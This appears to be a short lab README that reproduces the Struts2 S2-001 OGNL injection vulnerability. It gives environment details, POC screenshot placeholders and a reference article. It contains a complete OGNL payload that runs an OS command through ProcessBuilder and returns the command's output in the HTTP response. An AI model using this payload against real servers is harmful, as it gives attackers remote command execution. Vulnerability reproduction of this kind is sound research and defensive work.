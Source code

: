## Struts2 S2-001

### Environment

Struts2 Version: `struts-2.0.1-all`

Tomcat: `8.5.53`

IDE: `idea 2020.1.1`

Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

### POC

![{BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731]({BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731.jpg)

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042]({FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

### payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

### Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)


